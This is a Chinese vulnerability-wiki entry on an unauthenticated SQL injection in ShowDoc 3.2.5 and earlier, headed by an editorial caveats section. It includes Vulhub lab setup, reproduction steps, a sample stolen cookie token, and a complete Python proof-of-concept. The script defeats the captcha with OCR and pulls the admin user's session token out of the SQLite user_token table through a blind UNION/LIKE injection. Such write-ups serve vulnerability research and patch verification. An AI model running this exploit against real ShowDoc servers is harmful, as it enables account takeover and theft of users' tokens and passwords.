




## 核对与使用边界


本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：验证码每请求有效、item/pwd可公开调用、uid1存在活动token且64hex格式

- **结论使用边界（1）**：补丁commit明确，测试2.8.2与受影响&lt;=3.2.5兼容；需区分提取token与已知密码。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（2）**：脚本urljoin绝对/server/index.php丢部署子路径，验证码错误无限重试无上限/超时。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **代码与转录边界（3）**：固定uid1/token64hex与user_token表假设，proxies变量未使用；不应把无token误判无漏洞。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

- **结论使用边界（4）**：ShowDoc文档协作系统分类可更准确。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# ShowDoc 3.2.5 SQL 注入漏洞

## 漏洞描述

ShowDoc 是一个开源的在线共享文档工具。

ShowDoc <= 3.2.5 存在一处未授权 SQL 注入漏洞，攻击者可以利用该漏洞窃取保存在 SQLite 数据库中的用户密码和 Token。

参考链接：

- https://github.com/star7th/showdoc/commit/84fc28d07c5dfc894f5fbc6e8c42efd13c976fda

## 漏洞影响

```
ShowDoc <= 3.2.5
```

## 环境搭建

Vulhub 执行如下命令启动一个 ShowDoc 2.8.2 服务器：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8080` 即可查看到 ShowDoc 的主页。初始化成功后，使用帐号 `showdoc` 和密码 `123456` 登录用户界面。




## 漏洞复现

当一个用户登录进 ShowDoc，其用户 token 将会被保存在 SQLite 数据库中。相比于获取 hash 后的用户密码，用户 token 是一个更好地选择。

在利用该漏洞前，需要安装验证码识别库 [ddddocr](https://github.com/sml2h3/ddddocr)，因为该漏洞需要每次请求前传入验证码：

```
pip install onnxruntime ddddocr requests
```

然后，执行 [这个POC](https://github.com/vulhub/vulhub/blob/master/showdoc/3.2.5-sqli/poc.py) 来获取 token：

```
python poc.py -u http://your-ip:8080
```




测试获取的 token 是否合法。

未加 token：




添加 token：

```
Cookie: cookie_token=38f70784c511fe30f8686d5bf44bd0c5a830acd8e8c3efa9db63938f69e11f40
```




## 漏洞 POC

poc.py

```python
import argparse
import ddddocr
import requests
import onnxruntime
from urllib.parse import urljoin


onnxruntime.set_default_logger_severity(3)
table = '0123456789abcdef'
proxies = {'http': 'http://127.0.0.1:8085'}
ocr = ddddocr.DdddOcr()
ocr.set_ranges(table)


class RetryException(Exception):
    pass


def retry_when_failed(func):
    def retry_func(*args, **kwargs):
        while True:
            try:
                return func(*args, **kwargs)
            except RetryException:
                continue
            except Exception as e:
                raise e

    return retry_func


def generate_captcha(base: str):
    data = requests.get(f"{base}?s=/api/common/createCaptcha").json()
    captcha_id = data['data']['captcha_id']

    response = requests.get(f'{base}?s=/api/common/showCaptcha&captcha_id={captcha_id}')
    data = response.content
    result = ocr.classification(data)
    return captcha_id, result


@retry_when_failed
def exploit_one(base: str, current: str, ch: str) -> str:
    captcha_id, captcha_text = generate_captcha(base)
    data = requests.get(base, params={
        's': '/api/item/pwd',
        'page_id': '0',
        'password': '1',
        'captcha_id': captcha_id,
        'captcha': captcha_text,
        'item_id': f"aa') UNION SELECT 1,1,1,1,1,(SELECT 1 FROM user_token WHERE uid = 1 AND token LIKE '{current}{ch}%' LIMIT 1),1,1,1,1,1,1 FROM user_token; -- "
    }).json()

    if data['error_code'] == 0:
        return ch
    elif data['error_code'] == 10010:
        return ''
    elif data['error_code'] == 10206:
        raise RetryException()
    else:
        print(f'error: {data!r}')
        raise Exception('unknown exception')


def main():
    parser = argparse.ArgumentParser(description='Showdoc 3.2.5 SQL injection')
    parser.add_argument('-u', '--url', type=str, required=True)

    args = parser.parse_args()
    target = urljoin(args.url, '/server/index.php')
    res = ''
    for i in range(64):
        r = ''
        for ch in list(table):
            r = exploit_one(target, res, ch)
            if r:
                res += ch
                break

        print(f'Current result: {res}')
        if not r:
            break


if __name__ == '__main__':
    main()
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
